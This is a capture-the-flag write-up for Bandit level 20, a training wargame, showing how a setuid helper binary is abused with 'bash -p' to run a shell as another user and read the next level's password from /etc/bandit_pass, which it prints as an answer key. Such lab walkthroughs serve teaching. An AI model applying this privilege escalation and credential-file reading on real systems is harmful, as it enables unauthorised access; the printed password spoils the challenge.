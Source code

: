 #Level 20 

### Level Info

To gain access to the next level, you should use the setuid binary in the homedirectory. Execute it without arguments to find out how to use it. The password for this level can be found in the usual place (/etc/bandit_pass), after you have used the setuid binary.

### Helpful Reading Material

- [setuid on Wikipedia](https://en.wikipedia.org/wiki/Setuid)

# Solution

In this case, we need to take advantage of the SUID permission.

```sh
bandit19@bandit:~$ ls -l bandit20-do 
-rwsr-x--- 1 bandit20 bandit19 14880 Jul 17 15:57 bandit20-do
```

If we execute it, we can observe that we use a command as another user:

```sh
bandit19@bandit:~$ ./bandit20-do 
Run a command as another user.
  Example: ./bandit20-do id
```
For example the command **whoami**:

```sh
bandit19@bandit:~$ whoami
bandit19
bandit19@bandit:~$ ./bandit20-do whoami
bandit20
```

Therefore, we can open a bash. However, we need to specify that we are using SUID permissions with the **-p** parameter:

```sh
bandit19@bandit:~$ ./bandit20-do bash -p
bash-5.2$ whoami
bandit20
bash-5.2$ cat /etc/bandit_pass/bandit20
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
```

# Password for level 21:

0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
